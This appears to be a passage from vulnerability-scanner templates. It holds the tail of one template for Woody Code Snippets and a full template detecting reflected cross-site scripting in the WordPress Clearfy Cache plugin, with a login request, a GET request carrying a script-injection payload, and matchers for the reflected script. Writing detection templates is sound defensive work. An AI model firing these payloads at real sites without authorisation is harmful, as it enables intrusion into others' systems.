 **Type - word**
- part - body
- words
    1. import-wbcr_insert_php&a\">\<script>alert(1)\</script>"
    2. Woody Code Snippets Import
- condition - and

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Clearfy Cache \<2.0.5 - Cross-Site Scripting
## Description
- WordPress Clearfy Cache 2.0.5 does not escape some URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - xss,wp,wordpress,authenticated,clearfy-cache,wpscan,wp-plugin
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=gonzales-wbcr_clearfy&action=index&wbcr_assets_manager=1&a">\<script>alert(1)\</script> HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. ">\<script>alert(1)\</script>
    2. Webcraftic Clearfy - WordPress optimization plugin
- condition - and
